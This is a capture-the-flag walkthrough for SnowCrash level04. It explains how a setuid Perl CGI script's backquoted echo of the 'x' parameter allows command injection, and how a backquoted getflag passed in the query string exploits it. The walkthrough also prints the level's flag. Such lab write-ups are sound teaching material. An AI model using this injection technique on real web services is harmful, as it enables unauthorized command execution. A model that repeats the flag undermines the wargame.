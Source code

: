 # Level04

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We can see 2 things: <br/>
1. We can see that localhost:4747 is used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/
2. The print `print \`echo $y 2>&1\`;` uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm



Open a web browser, connect to the VM IP address on port 4747, for example: http://10.0.2.15:4747/

`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`<br/>
https://www.perl.com/article/perl-and-cgi/

Use the query string to pass the getflag command: </br>
`http://192.168.1.67:4747/?x=getflag` will not work as it will only print the string getflag </br>
But \`getflag\` will be taken as command (try print/echo \`getflag\` in terminal for example)

`ne2searoevaevoem4ov4ar8ap` 
